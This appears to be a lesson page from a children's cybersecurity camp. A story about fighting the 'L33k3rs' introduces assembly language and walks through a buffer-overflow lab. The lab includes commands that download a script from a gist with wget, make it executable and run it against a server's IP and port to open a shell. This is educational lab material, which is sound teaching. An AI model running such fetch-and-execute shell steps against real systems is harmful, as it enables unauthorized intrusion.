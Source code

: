 # Welcome to the Final day of Cybersecurity week!

![My guy typing](https://i.insider.com/515583f1eab8ea9a5d00001b?width=1100&format=jpeg&auto=webp)

<div style="margin:auto; display:flex; flex-direction:column; height:500px; max-width:500px">
    <iframe border="0" src="https://crosswordlabs.com/embed/2020-06-24-165?clue_height=30" style="flex:1; width:100%; padding:5px 0px 0 5px; border:3px solid black; "></iframe>
    <a target="_blank" style="align-self:center; font-size:12px; color:black; padding-top:10px; text-decoration:none;text-align:center" href="https://crosswordlabs.com">Crossword Puzzle Maker</a>
</div>

<br> 

Today is the last day of Cybersecurity week. Alice and Bob are pleased with how far you have come in your learnings
and how you have helped the Cyber House in their epic battle against the L33k3rs.

Yesterday you helped the Cyber House achieve a major accomplishment. Alice and Bob, thanks to you, were able to obtain 
information on all member of the L33k3rs. As we speak, Cyber House agents are tracking these people down to put
an end to their l33king schemes

![L33k3rs info](https://udel.codes/cyber4/phishing/L33k3r_Database.png)'

Our battle against the L33k3rs is coming to a close, however there is still one thing left to do.

### The Nano Bots!

We still have to shut down the nano bots. The nano bots are still in the Global Dessert Vault sending recipes to the L33k3rs. In order to stop them, we need being to understand a very important programming language. **Assembly Language.**

# Assembly Language

![Assembly](https://y31uv4ra1.vo.llnwd.net/content/wp/tweaklibrary_com/uploads/2017/07/49561-assembly-language-1280x720.jpg)

Assembly Language is the original true low-level computer language with pure instructions that directly translate into machine code.

*To explain:*

- There are languages that are considered **High-Level Programming Langauges**, these languages include Python, Java, Javascript, Scratch, ect. These programming languages are then broken down to a **Lower-level Programing Language**

- **Low-Level Programming Languages**, like Assembly and Machine Code, communicate more directly with the computer. Meaning they are more closely related to the computer's core language, like binary. (1's and 0's)

*So why have High-Level Languages if they are just turned into a Low-Level Language?*

- This is because Low-Level Languages are difficult to use and harder to understand then High-Level Languages. High-Level Languages are much more easier to read, write, and maintain. If you think coding in general is hard, Assembly is that much harder. 

### Why do we need to know this?

We need to know what assembly does because it is going to help us take down the L33k3rs!

Alice and Bob need us to take control of a L33k3r server so we can destroy it from the inside out! This is called pwning. So we will be compromising another server to gain access, almost like how we used the File Upload Exploit to gain access to the Global Dessert Vault!

---

#Infiltrat the L33k3rs!

So, let go to the terminal we have been using the past couple of days:  <a href="http://157.230.203.138/term" target="_blank">TERMINAL</a>

First begin by listing all the files in the home directory
- `ls`

Next we will move into the secsoft directory
- `cd secsoft`

Now let us list the files in this directory
- `ls`

Let's read the bufover-2.c file. This is a c file contiang c code. This will generate 
- `cat bufover-2.c`

Now we will read the bufover-2 file. This file is the executable for the file we just read. Meaning it will run bufover-2.c.
- `cat bufover-2`

Let's run the executable
- `r2 -Ad bufover-2`

Now that our process is running, lets enter this for the input.
- `Vpp`

What you are seeing is the assembly code for the bufover-2.c file. You can navigate through the code by using the "j" and "k" keys.
To Exit out of this view, press q
- `q`

The program is asking us a few questions, lets answer them by pressing the enter key twice.
- `enter`
- `enter`

Next we are going to download some code made by Alice and Bob that will help us infiltrate the L33k3r server. 

The code below is a script we will run which will create a completely new Bash Terminal that will have control over their server!
- `wget https://gist.githubusercontent.com/AndyNovo/217341c2818dc569294c86ffafc0ef9b/raw/530536eb4dd081869651f85d1c4ca04f8183b0c7/bash32.sh`

The command below will give the file we just downloaded exectuable permission.
- `chmod +x bash32.ch`

Now let's run out script to infiltrate the L33k3r Server!
- `./bash32.sh buffer-2 ipaddr port`

---

#We're In!

![Access Granted](https://ak.picdn.net/shutterstock/videos/33710788/thumb/5.jpg)

You have now sucessfully infiltrated the L33k3r server. Now look around using the terminal to try and find anything we can use to shutdown their system or to shut down the nanobots!


